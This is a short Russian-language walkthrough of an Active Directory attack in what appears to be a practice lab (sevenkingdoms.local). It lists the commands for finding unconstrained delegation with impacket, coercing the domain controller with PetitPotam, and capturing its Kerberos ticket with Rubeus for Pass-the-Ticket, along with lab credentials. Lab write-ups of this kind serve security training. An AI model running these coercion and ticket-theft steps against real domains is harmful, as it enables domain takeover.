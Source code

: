 Злоумышленник, имея учетную запись пользователя домена, может получить информацию о делегировании в домене.

```
impacket-findDelegation 'north.sevenkingdoms.local/arya.stark:Needle' -target-domain north.sevenkingdoms.local
```

![](/images/coerce/Pasted%20image%2020250106102847.png)

Сервер castelblack.north.sevenkingdoms.local имеет права неограниченного делегирования в домене.

Заставим контроллер домена winterfell.north.sevenkingdoms.local (192.168.56.11) аутентифицироваться на хосте castelblack (192.168.56.22) и проведем атаку Pass-the-Ticket

```
python /home/kali/PetitPotam/PetitPotam.py -u '' -p '' castelblack.north.sevenkingdoms.local 192.168.56.11
```

![](/images/coerce/Pasted%20image%2020250106105915.png)


```
C:\Users\vagrant\Desktop\Rubeus.exe monitor /interval:1 /targetuser:winterfell$ /nowrap
```

![](/images/coerce/Pasted%20image%2020250106105823.png)
